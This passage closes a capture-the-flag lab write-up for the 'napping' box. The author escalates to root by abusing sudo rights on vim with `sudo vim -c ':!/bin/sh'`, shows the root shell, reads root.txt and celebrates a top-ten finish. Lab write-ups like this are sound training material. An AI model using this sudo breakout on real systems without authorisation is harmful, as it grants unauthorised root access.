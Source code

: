 So we can run **vim** as root, and I happen to know that you can easily break out of vim and retain the escalated privileges. From the [**GTFOBins VIM entry**](https://gtfobins.github.io/gtfobins/vim/):

![](images/napping4.png)

<br>

I choose the first option and run:

`sudo vim -c ':!/bin/sh'`

```bash
adrian@napping:~$ sudo vim -c ':!/bin/sh'

# whoami
root
```

And we're root! Grabbing the final objective of **root.txt**:

`wc -c /root/root/txt`

```bash
45 root.txt
```

<br>

With that we've finished this CTF! This is a brand new box that was just released and **I was the 9th overall person to finish this box!** Not a first blood or anything, but at my skill level I'm quite happy to have my first **TOP 10 FINISH!**
